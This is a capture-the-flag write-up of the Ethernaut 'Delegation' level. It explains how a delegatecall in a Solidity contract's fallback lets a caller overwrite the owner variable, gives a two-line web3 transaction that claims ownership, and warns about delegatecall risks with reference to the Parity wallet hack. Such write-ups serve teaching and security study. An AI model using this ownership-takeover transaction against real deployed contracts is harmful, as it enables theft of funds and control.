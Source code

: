 # Delegation

## Challenge statement

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

    Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
    Fallback methods
    Method ids


## Analysis

The contract contains a delegatecall, transferring access of the contract's state, allowing the other contract to modify the owner variable.

## Solution

Force the fallback function, provide data in the form of the pwn() function to transfer ownership.

```
var pwn = web3.utils.sha3("pwn()")
contract.sendTransaction({from: player, to: contract.address, data: pwn})
```

## Moral

Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the The Parity Wallet Hack Explained article for an accurate explanation of how this idea was used to steal 30M USD.

